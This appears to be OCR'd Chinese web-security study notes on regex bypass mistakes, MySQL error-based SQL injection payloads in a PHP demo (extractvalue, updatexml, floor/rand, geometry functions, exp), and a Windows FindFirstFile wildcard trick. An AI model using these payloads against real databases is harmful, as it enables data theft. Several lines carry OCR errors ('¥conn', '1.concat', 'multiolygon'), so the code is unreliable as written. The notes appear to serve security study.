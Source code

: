 正则表达式
1. 没有使用^ 和 $ 限定匹配开始位置
2. 特殊字符未转义
报错注入
```php
<?php
	¥conn= mysql_connect("localhost","root","root");
	mysql_select_db("test",$conn);
	$sql1 = "SELECT 1 FROM (SELECT count(*),concat(USER(),floor(rand(0)*2)) x FROM
			information_schema.TABLES GROUP BY x) a";
	$sql2 = "SELECT * FROM user WHERE id = 1 and 
			(extractvalue(1,concat(0x5c,(SELECT user()))))";
	$sql3 = "SELECT * FROM user WHERE id = 1 and 
			(updatexml(1.concat(0x5c24,(SELECT user()),0x5e24),1))";
	$sql4 = "SELECT * FROM user WHERE id = 1 and 
			GeometryCollection((SELECT * FROM(SELECT * FROM(SELECT user())a)b))";
	$sql5 = "SELECT * FROM user WHERE id = 1 and 
			polygon((SELECT * FROM(SELECT * FROM(SELECT user())a)b))";
	$sql6 = "SELECT * FROM user WHERE id = 1 and 
			multipoint((SELECT * FROM(SELECT * FROM(SELECT user())a)b))";
	$sql7 = "SELECT * FROM user WHERE id = 1 and 
			multilinestring((SELECT * FROM(SELECT * FROM(SELECT user())a)b))";
	$sql8 = "SELECT * FROM user WHERE id = 1 and 
			multiolygon((SELECT * FROM(SELECT * FROM(SELECT user())a)b))";
	$sql9 = "SELECT * FROM user WHERE id = 1 and 
			linestring((SELECT * FROM(SELECT * FROM(SELECT user())a)b))";
	$sql10 = "SELECT * FROM user WHERE id = 1 and 
			exp(~(SELECT * FROM(SELECT user())a))";
	$res = mysql_query($sql10);
	if(!res){
		echo mysql_error();
	}
?>
```
![image](https://img-blog.csdnimg.cn/img_convert/1de5099672129121fd69b63989eeb50a.png)
`windows findfirstfile`利用：若要搜索12345.txt文件，可使用`1<<`来代替或者`12<<`，不可以单独使用一个`"<"`或`">"`，因为单独一个只是代表了一个字符，两个代表多个字符
